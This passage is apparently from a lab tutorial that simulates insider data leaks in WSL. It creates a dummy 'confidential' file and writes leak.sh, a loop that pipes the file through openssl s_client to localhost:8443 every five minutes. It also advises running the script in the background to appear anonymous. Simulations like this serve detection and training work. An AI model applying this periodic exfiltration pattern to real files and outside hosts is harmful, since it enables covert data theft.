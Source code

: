 ### Commands

1. In the WSL terminal, run:

```bash
# Create a 10MB file
dd if=/dev/urandom of=confidential_data.txt bs=1M count=10
```

### Explanation

- `dd`: A tool for copying and converting data.
- `if=/dev/urandom`: Uses random data as the input source.
- `of=confidential_data.txt`: Outputs to a file named `confidential_data.txt`.
- `bs=1M`: Sets the block size to 1 megabyte.
- `count=10`: Writes 10 blocks, creating a 10MB file.

Adjust `count` to increase or decrease the file size as needed.

---

## Step 4: Create a Bash Script to Simulate Periodic Data Leaks

Write a Bash script to periodically send the large file to the server, simulating an insider leaking data every 5 minutes.

### Commands

1. Open a text editor (e.g., `nano leak.sh`) and add:

```bash
#!/bin/bash

while true; do
    cat confidential_data.txt | openssl s_client -connect localhost:8443 -quiet
    sleep 300  # Wait 5 minutes
done
```

2. Save the file and make it executable:

```bash
# Add execute permissions
chmod +x leak.sh
```

3. Run the script:

```bash
# Run the script
./leak.sh
```

If you don't want to see logs and appears anonymous, you can run the script in the background:

```bash
# Run the script in the background
./leak.sh &
```

